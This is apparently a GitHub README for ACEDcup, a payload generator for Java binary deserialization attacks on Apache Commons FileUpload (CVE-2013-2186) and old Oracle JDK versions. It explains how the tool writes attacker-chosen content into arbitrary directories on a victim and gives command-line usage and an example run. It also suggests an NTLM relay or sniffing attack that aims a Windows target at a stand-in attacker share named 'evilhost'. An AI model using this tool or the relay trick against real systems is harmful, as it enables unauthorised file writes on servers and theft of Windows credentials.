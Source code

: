 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)

For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name (smth like upload_f71d3547_72ed_4ae1_90fe_0d319115cd42_00000000.tmp) in this situation. Hovewer, it may be useful in some cases. 

Also we can perform a NTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)
```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\emp1.ser```

